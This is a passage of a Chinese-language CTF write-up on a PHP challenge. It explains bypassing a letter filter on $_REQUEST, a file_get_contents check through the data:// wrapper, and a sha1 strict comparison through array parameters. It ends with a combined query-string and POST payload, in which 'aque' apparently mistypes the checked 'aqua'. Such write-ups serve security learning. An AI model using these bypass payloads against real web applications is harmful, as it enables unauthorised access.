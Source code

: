 **3.$_REQUEST**绕过

```
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value)) 
        //要求不能有字母
            die('fxck you! I hate English!'); 
    } 
} 
```

```
$_POST优先级高于$_GET,所以用POST传入的值会把$_GET中的值覆盖掉
```

1和2中可知，需要用file和debu传值，所以此处用**POST传入file=xxx&debu=xxx**可以绕过(xxx可以是任何不为0的数)



**4.file_get_contents绕过**

```
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

我们使用data伪协议

```
file=data://text/plain,debu_debu_aqua
```



**5.sha1函数、比较类型数组绕过**

```
if ( sha1($shana) === sha1($passwd) && $shana != $passwd )
//既要shana和passwd传入的值不相同，又要这两个传入的值经过sha1散列之后强相等
{
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

sha1函数的参数是数组是，会返回false，所以可以用

```
shana[]=0&passwd[]=1
```

则所有的payload为

```
file=data://text/plain,debu_debu_aque&debu=aque_is_cute%0a&shana[]=0&passwd[]=1

post
file=1&debu=1
```
